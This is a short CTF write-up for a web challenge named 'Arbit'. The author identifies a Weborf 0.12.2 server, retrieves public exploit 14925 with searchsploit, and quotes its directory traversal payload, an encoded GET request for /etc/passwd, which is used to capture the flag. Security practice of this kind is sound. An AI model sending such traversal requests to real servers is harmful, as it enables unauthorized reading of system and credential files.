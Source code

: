 # Arbit

## Overview

- Overall difficulty for me: Very easy

**In this challenge, we can spawn a docker instance:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027081634.png)

## Find the flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027081732.png)

**Hmm... `Weborf/0.12.2`. Let's search for public exploit via `searchsploit`:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/Arbit]
└─# searchsploit Weborf
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
weborf 0.12.2 - Directory Traversal                                  | linux/remote/14925.txt
[...]                                                                |
--------------------------------------------------------------------- ---------------------------------
```

**Oh! It's vulnerable to Directory Traversal. Let's mirror that txt file:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/Arbit]
└─# searchsploit -m 14925
```

**14925.txt:**
```
Title: Weborf httpd <= 0.12.2 Directory Traversal Vulnerability
Date: Sep 6, 2010
Author:	Rew
Link: http://galileo.dmi.unict.it/wiki/weborf/doku.php
Version: 0.12.2
Tested On: Debian 5
CVE: N/A

=============================================================

Weborf httpd <= 0.12.2 suffers a directory traversal
vulnerability.  This vulnerability could allow
attackers to read arbitrary files and hak th3 plan3t.

instance.c : line 240-244
------------------------------
void modURL(char* url) {
    //Prevents the use of .. to access the whole filesystem  <-- ORLY?
    strReplace(url,"../",'\0');

    replaceEscape(url);
------------------------------

Exploit: GET /..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

==============================================================
```

**Let's copy and paste that payload!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082137.png)

We found the flag!

# Conclusion

What we've learned:

1. Exploiting Weborf 0.12.2 Directory Traversal